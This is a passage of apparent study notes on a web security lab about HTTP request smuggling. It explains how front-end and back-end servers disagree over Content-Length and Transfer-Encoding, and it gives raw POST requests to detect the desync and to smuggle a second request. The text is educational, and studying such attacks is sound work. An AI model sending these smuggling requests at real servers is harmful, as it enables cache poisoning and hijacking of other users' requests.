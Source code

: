 When it reads the request it still waits for 5 bytes of content before executing it. It is followed up by a normal GET request for the front page. It gets forwarded to the front-end which forwards to the back-end server. Since it is poisoned and is waiting for 5 bytes, the content is appended right after the body. 

Only 5 bytes of the normal request are appended to the prefix (`GET /`). The rest of the request is still sitting on the buffer or is discarded depending on the implementation. Normally, it returns a 200 OK, but because it executes a POST request for a resource that is not valid, a 404 Not Found is returned.

To exploit it, try sending the normal home page request to make sure it supports HTTP/1.1. If it does, change the request method to POST and create the following request:

```http
POST / HTTP/1.1
Host: 0a6700f403d3106e80affd52002c007e.web-security-academy.net
Content-Type: application/x-www-form-urlencoded
Content-Length: 6
Transfer-Encoding: chunked

3
abc
X

```

>[!danger] Content-Length
>Make sure the "Update Content-Length" option is unchecked so you can control it manually

If an invalid request is returned, it means it is reading in a chunked size of 3 and reading an invalid chunked size of `X` which the front end rejects. To detect the back-end, use the following:

```http
POST / HTTP/1.1
Host: 0a6700f403d3106e80affd52002c007e.web-security-academy.net
Content-Type: application/x-www-form-urlencoded
Content-Length: 6
Transfer-Encoding: chunked

0

X
```

If the response is timing out this is good. When sending the request, the front end is using TE, thinking the request has ended after the terminating chunk and drops the X meaning you have 5 bytes of content with a CL set of 6. When it arrives at the back-end, it waits for the 6th byte and times out.

To confirm it exists, create an attack request and a normal request such as:

```http
POST / HTTP/1.1
Host: 0a6700f403d3106e80affd52002c007e.web-security-academy.net
Content-Type: application/x-www-form-urlencoded
Content-Length: 6
Transfer-Encoding: chunked

<chunk-size>
POST /throw404 HTTP/1.1
Host: 0a6700f403d3106e80affd52002c007e.web-security-academy.net
Content-Type: application/x-www-form-urlencoded
Content-Length: 6

x=1
0


```